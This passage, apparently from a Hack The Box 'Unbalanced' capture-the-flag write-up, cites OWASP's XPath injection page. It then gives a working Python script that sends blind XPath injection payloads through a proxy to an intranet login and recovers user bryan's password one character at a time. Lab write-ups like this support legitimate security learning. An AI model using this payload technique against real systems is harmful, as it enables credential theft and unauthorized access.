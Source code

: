 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-unbalanced/Untitled%2012.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-unbalanced/Untitled%2012.png)

Reference:

- [https://owasp.org/www-community/attacks/XPATH_Injection](https://owasp.org/www-community/attacks/XPATH_Injection)

Using `substring` we can bruteforce the Passwords.

I just made a quick Bruteforce which will find the password for us. I used user `bryan` because he is the System Administrator.

```python
import requests

junk= ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','!','@',"#","$","%","&","_","-","1","2","3","4","5","6","7","8","9","0"]
i=1

def payload(password):
	data = {"Username":"bryan","Password":"{}' and Username='bryan".format(password)}
	r = requests.post('http://172.31.179.1/intranet.php', data=data, proxies={ "http": "http://10.10.10.200:3128" })
	return r.text.find("Bryan") != -1

trash=""
while True:
	for x in junk:
		if payload("' or substring(Password,{},1)='{}".format(i,x)):
			trash+=x
			i=i+1
			print("> ",trash)
```
